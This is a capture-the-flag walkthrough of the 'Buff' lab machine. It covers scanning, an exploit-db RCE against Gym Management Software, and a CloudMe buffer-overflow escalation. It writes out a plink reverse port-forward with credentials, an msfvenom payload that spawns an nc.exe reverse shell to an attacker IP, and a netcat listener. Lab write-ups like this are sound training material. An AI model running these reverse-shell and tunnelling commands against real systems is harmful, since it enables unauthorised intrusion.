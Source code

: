 # Buff

`nmap -T4 -O -A -sV -p- -sS -Pn -n -vvv -oA scan1 10.10.10.198`
![](1.png)

`http://10.10.10.198:8080/`

![](2.png)

*Now if you go to the About section of the website then youll find that it is created using Gym management software 1.0*

![](3.png)

*After googling the software version i found a RCE vulneraility in the system. the exploit of the vulnerability is uploaded on exploit-db*

![](4.png)

*I downloaded it and executed it as shown further and i got a reverse shell of the machine*
![](5.png)

**Here we get the user flag**


*Now we need to get a command shell of the machine , so in order to  get a command line shell we need to upload following exe files
NETCAT : TO GET A REVERSE SHELL
PLINK : TO PORT FORWARD*

![](6.png)
![](7.png)
![](8.png)
![](9.png)

**Now getting root flag..**


*If you enumerate more in the machine then in the Download folder you  will get a exe file `Cloudme1.11.2.exe` which represents that the version  is vulnerable to Buffer Overflow . We have a exploit for that verision  on exploit-db 
Now we need to Port forward the ip of the machine using plink which we alraedy uploaded on the machine
so lets upload using following command :* 

`plink1.exe -l prof3ssor -pw toor 10.10.14.96 -R 8888:127.0.0.1:8888`

![](10.png)
![](11.png)

Now we need to do some changes in our 48389 exploit , just copy the  output of the following metasploit payload and replace it to 48389  exploits buffer codes
The metasploit payload : `msfvenom -p windows/exec  CMD=’c;\xampp\htdocs\gym\upload\nc.exe -e cmd.exe 10.10.14.96 4444′ -b  ‘\x00\x0a\x0d’ -f py -v payload` 

![](12.png)
*Now start a netcat listner as nc -lnvp 4444 and on the second terminal exeute the payload as follows :*

![](13.png)
 *we got the root privilege in the system Now lets find the root flag .*
